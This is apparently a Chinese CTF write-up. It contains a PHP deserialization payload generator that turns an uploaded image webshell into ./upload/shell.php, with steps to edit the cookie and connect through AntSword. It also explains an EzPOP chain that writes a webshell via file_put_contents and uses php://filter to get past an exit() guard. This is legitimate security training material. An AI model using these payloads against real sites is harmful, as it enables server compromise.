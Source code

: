    class Register{
        public $checker;
        public $registed;
    }

    class Profile{
        public $checker;
        public $filename_tmp;
        public $filename;
        public $upload_menu;
        public $ext;
        public $img;
        public $except;
    }

    $profile = new Profile();
    $profile->checker = 0;
    $profile->ext = 1;
    $profile->except = ['index'=>'upload_img'];
    $profile->filename_tmp = './upload/1254adea244b6ef09ecedbb729f6c397/87328f29c1073c486f19bf593fbbefb1.png';
    $profile->filename = './upload/shell.php';

    $register = new Register();
    $register->registed = 0;
    $register->checker = $profile;

    echo base64_encode(serialize($register));
    ```

    *注意先上传图片马，然后修改cookie，重新访问一下，使用蚁剑连接filename指示的路径*

#### EIS2019 EzPOP

##### 源码

    [index.php](./code/EIS2019EzPOP/)

##### 解题

- 代码末尾看到一个`unserialize`,结合题目，考点大概是pop链反序列化
- 首先要找到利用点，在 B 类的`set`函数中有`file_put_contents()`,而写入的内容是`$data`,所以可以让`$data`中的内容为webshell。
- 但是往上看发现`$data`中有`exit`,这就会导致我们写入的webshell无法执行,这里可以用php伪协议绕过,具体参考[谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
- 往上，虽然有个数据压缩的代码，但是只需要`options['data_compress']`为假就不进入`if`,就不会执行，经过了`serialize`函数，但这个函数并非是序列化函数，而是在`class B`中自定义的`serialize`函数。这个函数我们可以控制。

    ```php
    $serialize = $this->options['serialize'];
    return $serialize($data);
    ```

- 上面还对`$filename`这个参数进行了处理，具体就是字符串拼接,如果我们不赋值就不会拼接。

    ```php
    $filename = $this->getCacheKey($name);
    ...
    public function getCacheKey(string $name): string {
        return $this->options['prefix'] . $name;
    }
    ```
